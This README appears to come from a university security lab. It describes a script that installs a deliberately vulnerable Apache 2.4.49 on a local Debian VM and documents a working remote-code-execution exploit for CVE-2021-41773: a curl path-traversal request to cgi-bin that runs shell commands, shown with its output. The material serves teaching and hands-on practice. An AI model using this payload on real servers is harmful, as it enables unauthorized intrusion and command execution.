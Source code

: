 # Files in this repo

## setup.sh

This file is intended to be executed as root on the guest VM. Do not run it on your host OS; it will do bad things.

This script will:
* Install sudo, build-essential, and the build dependencies for apache2
* Create the user `abronsius` (if not existing) and add it to the sudoers list
* Download, build, and install apache2 2.4.49 at `/home/abronsius/apache2`
* Configure apache2 to serve files and enable cgi-bin
* ... more coming later

# VM OS

The OS is Debian 11.1 Bullseye but any Debian-based OS should also work. I don't recommend deviating from this choice in case there are compatibility issues, and any non-Debian OS will require installing and configuring everything manually. Download via [Torrent](https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-11.1.0-amd64-netinst.iso.torrent) or directly via [ISO](https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-11.1.0-amd64-netinst.iso). The sha256sum of the ISO is `8488abc1361590ee7a3c9b00ec059b29dfb1da40f8ba4adf293c7a30fa943eb2` to double check that you've obtained the correct file.

# VM Configuration

The VM can be installed using any software (qemu/kvm, VirtualBox, VMWare, etc.)
The only requirement is network access with its own IP address. This can (and should) be a totally local network. The VM will contain several serious security flaws and therefore should not be available over the Internet.

# Exploits

## Exploit Target 1: Apache

### Exploit 1: CVE-2021-41773

This vulnerability is trivial to exploit and results in directory traversal, local file inclusion, and remote code execution. This exploit takes advantage of a new form of URL normalisation added in this version of apache2 which did not appropriately check against URL-encoded paths, which in this instance allows moving up from the cgi-bin directory and executing arbitrary code on the remote server. This line brings the directory up to `/` and then executes `/bin/sh` and passes `echo;ls -alh /etc/passwd;whoami;uname -a` to the opened shell.

Remote code execution:
```sh
curl --path-as-is "http://website1.cpsc4270.local:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;ls -alh /etc/passwd;whoami;uname -a"
```

Example output:
```
-rw-r--r-- 1 root root 1.6K Oct 23 23:38 /etc/passwd
abronsius
Linux dbsec-vm-main 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
```
